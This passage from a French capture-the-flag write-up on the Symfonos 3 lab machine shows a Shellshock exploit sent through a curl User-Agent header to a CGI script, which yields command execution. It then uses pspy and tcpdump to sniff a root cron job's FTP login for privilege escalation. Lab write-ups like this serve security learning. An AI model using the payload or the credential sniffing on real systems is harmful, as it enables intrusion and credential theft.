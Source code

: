 On peut alors adapter pour avoir une RCE. Notez que les paths sont être complets quand on appelle une commande qui n'est pas interne à bash :

```shellsession
$ curl -D- http://192.168.56.114/cgi-bin/underworld -H "User-Agent: () { :;}; echo; echo; /usr/bin/id;"
HTTP/1.1 200 OK
Date: Mon, 20 Feb 2023 22:03:26 GMT
Server: Apache/2.4.25 (Debian)
Transfer-Encoding: chunked


uid=1001(cerberus) gid=1001(cerberus) groups=1001(cerberus),33(www-data),1003(pcap)
```

On fait partie du groupe `pcap`... Intéressant.

Une fois un shell plus agréable obtenu je remarque que l'utilisateur `hades` fait partie du groupe `gods`.

```
uid=1000(hades) gid=1000(hades) groups=1000(hades),1002(gods)
```

Forcément ça donne envie :)

## De simple humain à dieu

Revenons à notre groupe pcap. Il doit y avoir un trafic réseau à sniffer et qui dit activité réseau dit processus.

J'ai surveillé ça avec [GitHub - DominicBreuker/pspy: Monitor linux processes without root permissions](https://github.com/DominicBreuker/pspy) :

```
2023/02/20 16:15:55 CMD: UID=0    PID=1      | /sbin/init 
2023/02/20 16:16:01 CMD: UID=0    PID=11107  | /usr/sbin/CRON -f 
2023/02/20 16:16:01 CMD: UID=0    PID=11106  | /usr/sbin/cron -f 
2023/02/20 16:16:01 CMD: UID=0    PID=11111  | /bin/sh -c /usr/bin/curl --silent -I 127.0.0.1 > /opt/ftpclient/statuscheck.txt 
2023/02/20 16:16:01 CMD: UID=0    PID=11110  | /bin/sh -c /usr/bin/python2.7 /opt/ftpclient/ftpclient.py 
2023/02/20 16:16:01 CMD: UID=0    PID=11109  | /bin/sh -c /usr/bin/python2.7 /opt/ftpclient/ftpclient.py 
2023/02/20 16:16:01 CMD: UID=0    PID=11108  | /bin/sh -c /usr/bin/curl --silent -I 127.0.0.1 > /opt/ftpclient/statuscheck.txt 
2023/02/20 16:16:02 CMD: UID=0    PID=11112  | proftpd: (accepting connections)               
2023/02/20 16:16:02 CMD: UID=0    PID=11113  | /usr/sbin/CRON -f 
2023/02/20 16:16:02 CMD: UID=105  PID=11114  | /usr/sbin/sendmail -i -FCronDaemon -B8BITMIME -oem root 
2023/02/20 16:16:02 CMD: UID=0    PID=11115  | /usr/sbin/exim4 -Mc 1pUES2-0002tF-31
```

Je lance la surveillance du port FTP :

```shellsession
cerberus@symfonos3:/tmp$ tcpdump -i any -x "tcp port 21"
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
--- snip ---
16:24:01.942666 IP localhost.49848 > localhost.ftp: Flags [P.], seq 1:13, ack 56, win 342, options [nop,nop,TS val 1376255 ecr 1376253], length 12: FTP: USER hades
        0x0000:  4500 0040 742a 4000 4006 c88b 7f00 0001
        0x0010:  7f00 0001 c2b8 0015 06cf 8bdf e1a9 68cc
        0x0020:  8018 0156 fe34 0000 0101 080a 0014 ffff
        0x0030:  0014 fffd 5553 4552 2068 6164 6573 0d0a
16:24:01.942673 IP localhost.ftp > localhost.49848: Flags [.], ack 13, win 342, options [nop,nop,TS val 1376255 ecr 1376255], length 0
        0x0000:  4500 0034 976d 4000 4006 a554 7f00 0001
```